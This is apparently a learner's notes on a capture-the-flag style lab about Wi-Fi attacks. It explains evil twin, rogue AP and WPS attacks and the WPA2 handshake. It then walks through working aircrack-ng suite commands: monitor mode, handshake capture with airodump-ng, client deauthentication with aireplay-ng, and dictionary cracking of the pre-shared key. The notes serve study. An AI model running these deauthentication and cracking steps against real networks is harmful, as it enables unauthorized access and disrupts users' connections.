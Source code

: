 Learning Objectives
- Understand what Wi-Fi is
- Explore its importance for an organization
- Learn the different Wi-Fi attacks
- Learn about the WPA/WPA2 cracking attack

Wi-Fi Attacks
	Evil Twin Attack:
		Typically begins by sending victims de-authentication packets, which disconnects them from their trusted access point(ap). Attacker creates fake ap with an ssid similar to the victims (typosquatting, e.g., FrostburgStaff-> Fr0stburgStaff Ideally, after multiple attempts reconnecting to the trusted ap, the attacker expects the victim to try their fake ap, so they can listen to all of the victims traffic. 
	Rogue Access Point:
		Similar to Evil Twin, the attacker configures a rogue access point near their targets and waits for them to accidentally join, so they can intercept traffic. 
	Wi-Fi Protected Setup Attack (WPS):
			preface: WPS created so users connect to their wifi using an 8 digit pin as opposed to a complex password. 
		Attack by ==initiating a WPS handshake with the router and capturing the router's response== (contains info about pin + psk), and vulnerable to brute-force. 
WPA/WPA2 cracking
	Attackers start by sending de-auth packets to active users. Once they disconnect, they'll try and reconnect which will start a 4-way handshake with the router. 
	The 4-way handshake
		First, an attacker places their wireless adapter into monitor mode to scan for networks, then targets a specific network to capture the 4-way handshake. Once the handshake is captured, the attacker may run brute-force or dictionary attacks offline, using a tool like aircrack-ng to attempt to match a wordlist against the passphrase.
	- **Router sends a challenge:** The router (or access point) sends a challenge" to the client, asking it to prove it knows the network's password without directly sharing it.
	- **Client responds with encrypted information:** The client takes this challenge and uses the PSK to create an encrypted response that only the router can verify if it also has the correct PSK.
	- **Router verifies and sends confirmation:** If the router sees the client’s response matches what it expects, it knows the client has the right PSK. The router then sends its own confirmation back to the client.
	- **Final check and connection established:** The client verifies the router's response, and if everything matches, they finish setting up the secure connection.
The Vulnerability 
	Attackers can listen for incoming connections while users try to initiate connections. 
The Practical
	run 'iw dev' to show available wireless devices and their configs
		![[Pasted image 20250207121036.png]]
	MAC/Basic SSID (AP)
	type 'managed' = Standard mode where device act as client, connecting to an AP. 
	run 'sudo iw dev wlan2 scan' where we specify the ap (dev wlan2) and scan the area for wifi networks
		![[Pasted image 20250207121307.png]]
	BSSID = 02:00:00:00:02:00
	SSID = MalwareM_AP - This suggets the ap is discoverable for local clients. 
	Robust Security Network(RSN, part of WPA2 standard used to define encryption and auth settings)
		Group and Pairwise ciphers = Counter Mode with Cipher Block Chaining Message Authentication Code Protocol (CCMP) is the encryption method used. 
		 'Auth suite' lets us know a pre-shared key is required for access. 
		DS Parameter Set = Channel 6 refers to a specific frequency range. 
			most common Wi-Fi channels are 2.4 GHz and 5GHz. In the 2.4 GHz band, channels 1, 6, and 11 are commonly used because they don’t overlap, minimizing interference. More channels available in the 5GHz channel. 
	Monitor mode 
		Primarily used for network analysis and auditing. 
		- The AP passively captures all traffic on a specific channel regardless of whether the traffic is intended for the AP. 
		run 'sudo ip link set dev wlan2 down'
			turns the AP off
		run 'sudo iw dev wlan2 set type monitor'
			switches mode from managed to monitor 
		run 'sudo ip link set dev wlan2 up'
			turns ap on
		- ![[Pasted image 20250207122359.png]]
		run 'sudo iw dev wlan2 info'
			to verify changes
			![[Pasted image 20250207122448.png]]
	Practical 
		two terminals and ssh sessions 
			 run 'sudo airodump-ng wlan2' 
			- Provides list of nearby wifi networks (SSIDs)) + details about their signal strength, channel and encryption 
			![[Pasted image 20250210164840.png]]
		We discovered most of this info earlier from the 'iw scan' output, but we now have the listening channel(6). 
		run sudo airodump-ng -c 6 --bssid 02:00:00:00:00:00 -w output-file wlan2
			captures traffic and saves info to files w/ names that start with 'output-file' (useful for cracking)
		![[Pasted image 20250210165705.png]]
			While this is active, we are waiting for airodump to capture the 4-way handshake. First, it'll check for any active connections. If active, we can perform a deauth attack; otherwise, we'll capture the handshake for any new connecitions. 
			In the screenshot, we've captured information about the access point (shown under the first 'BSSID') and connected clients (shown underneath the second 'BSSID') 
			 'STATION' shows the clients MAC address.
	Deauth attack from second terminal w/ aireplay-ng
		aireplay can either target a specific client(targeted attack) or all clients connected to an AP (Broadcast attack)
		Clients automatically tries to reconnect after (initiating the handshake process)
		aireodump captures handshake as it happens. 
	run  sudo aireplay-ng -0 1 -a 02:00:00:00:00:00 -c 02:00:00:00:01:00 wlan2 
		-0  indicates that we are using the deauthentication attack 
		 1 value is the number of deauths to send. 
		-a indicates the BSSID of the access point   
		-c indicates the BSSID of the client to deauthenticate
	![[Pasted image 20250210170644.png]]
Performing a dictionary attack on the output captured
	run 'sudo aircrack-ng -a 2 -b 02:00:00:00:00:00 -w /home/glitch/rockyou.txt output(x)cap
		-a 2 indicates WPA/WPA2 attack mode
		-b indicates the BSSID of the AP
		-w indicates the wordlist to use for the attack. 
		output(asterik)cap indicates the captured handshake files. 
	![[Pasted image 20250210171148.png]]
Joining MalwareM_AP using the PSK derived from aircrack-ng
	![[Pasted image 20250210171517.png]]
Confirming we've joined the network 
	run 'iw dev'
	![[Pasted image 20250210171732.png]]
![[Pasted image 20250210171847.png]]
Whew, this room was a lot to take in. Nonetheless, I enjoyed the hands-on experience involving wireless attacks. Lastly, I plan to experiment further with aircrack-ng because of its versatility. 
